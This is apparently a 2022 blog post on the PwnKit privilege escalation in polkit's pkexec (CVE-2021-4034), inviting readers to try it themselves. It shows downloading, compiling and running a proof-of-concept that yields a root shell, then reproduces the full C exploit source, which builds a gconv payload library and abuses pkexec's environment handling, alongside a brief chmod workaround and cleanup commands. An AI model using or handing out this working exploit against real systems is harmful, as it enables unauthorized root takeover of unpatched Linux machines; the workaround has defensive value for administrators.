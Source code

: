 ```yaml
---
title: 'Local Privilege Escalation in polkits pkexec'
description: ''
date: 2022-01-26
tags: ['cve', 'security', 'vuln']
---
```


The big news in Linux today is the [Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://seclists.org/oss-sec/2022/q1/90), with [Arstechnica](https://arstechnica.com/information-technology/2022/01/a-bug-lurking-for-12-years-gives-attackers-root-on-every-major-linux-distro/) leading with, "_A bug lurking for 12 years gives attackers root on every major Linux distro - It's likely only a matter of time before PwnKit is exploited in the wild_" Needless to say, I immediately had to try it out on my own, so I got on one of my [Debian GNU/Linux](https://debian.org) servers to test it. Spoiler: it worked, here's how you can try it too.

## Howto

```
# id
uid=1000(fak3r) gid=1000(fak3r) groups=1000(fak3r),27(sudo)
$ curl -O https://haxx.in/files/blasty-vs-pkexec.c
$ gcc blasty-vs-pkexec.c -o pkexec-poc
$ ./pkexec-poc
[~] compile helper..
[~] maybe get shell now?
# id
uid=0(root) gid=0(root) groups=0(root),27(sudo),1000(fak3r)
#
```

## Workaround fix (temporary)

While this is bad, here's a quick workaround, remove the sticky bit from the binary - it's certainly untested, and will be null once a patch is released:

```
chmod 755 /usr/bin/pkexec
```

## Cleanup

To remove the downloaded, and generated, code:

```
rm -rf pkexec-poc blasty-vs-pkexec.c GCONV_PATH\=. lol payload.*
```

## Code

In case the C code is pulled, here's it is, again, I grabbed it from [haxx.in](https://haxx.in/files/blasty-vs-pkexec.c).

```
/*
 * blasty-vs-pkexec.c -- by blasty <peter@haxx.in>
 * ------------------------------------------------
 * PoC for CVE-2021-4034, shout out to Qualys
 *
 * ctf quality exploit
 *
 * bla bla irresponsible disclosure
 *
 * -- blasty // 2022-01-25
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

void fatal(char *f) {
    perror(f);
    exit(-1);
}

void compile_so() {
    FILE *f = fopen("payload.c", "wb");
    if (f == NULL) {
        fatal("fopen");
    }

    char so_code[]=
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n"
        "void gconv() {\n"
        "  return;\n"
        "}\n"
        "void gconv_init() {\n"
        "  setuid(0); seteuid(0); setgid(0); setegid(0);\n"
        "  static char *a_argv[] = { \"sh\", NULL };\n"
        "  static char *a_envp[] = { \"PATH=/bin:/usr/bin:/sbin\", NULL };\n"
        "  execve(\"/bin/sh\", a_argv, a_envp);\n"
        "  exit(0);\n"
        "}\n";

    fwrite(so_code, strlen(so_code), 1, f);
    fclose(f);

    system("gcc -o payload.so -shared -fPIC payload.c");
}

int main(int argc, char *argv[]) {
    struct stat st;
    char *a_argv[]={ NULL };
    char *a_envp[]={
        "lol",
        "PATH=GCONV_PATH=.",
        "LC_MESSAGES=en_US.UTF-8",
        "XAUTHORITY=../LOL",
        NULL
    };

    printf("[~] compile helper..\n");
    compile_so();

    if (stat("GCONV_PATH=.", &st) < 0) {
        if(mkdir("GCONV_PATH=.", 0777) < 0) {
            fatal("mkdir");
        }
        int fd = open("GCONV_PATH=./lol", O_CREAT|O_RDWR, 0777);
        if (fd < 0) {
            fatal("open");
        }
        close(fd);
    }

    if (stat("lol", &st) < 0) {
        if(mkdir("lol", 0777) < 0) {
            fatal("mkdir");
        }
        FILE *fp = fopen("lol/gconv-modules", "wb");
        if(fp == NULL) {
            fatal("fopen");
        }
        fprintf(fp, "module  UTF-8//    INTERNAL    ../payload    2\n");
        fclose(fp);
    }

    printf("[~] maybe get shell now?\n");

    execve("/usr/bin/pkexec", a_argv, a_envp);
}
```
